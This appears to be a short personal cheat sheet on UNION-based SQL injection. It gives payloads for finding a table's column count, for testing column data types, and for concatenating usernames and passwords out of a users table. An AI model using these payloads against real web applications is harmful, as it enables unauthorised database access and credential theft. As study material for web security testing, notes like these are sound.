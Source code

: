 # Finding the number of columns in the table with union statement
```
'+union+select+null,null--
```

Increase the number of null's when u dont get any error on the page , the number of null's are the number of columns

# Finding the data-type of the column

Replace the null with 'a'/1 to check what data type the column has

# Using String concatination to get more useful data

We can use string concating to get more useful data from tables

like we can extract the username and password from a table

'+union+select+null,username+||+'~'+||+password+from+users--

the '||' is the symbol
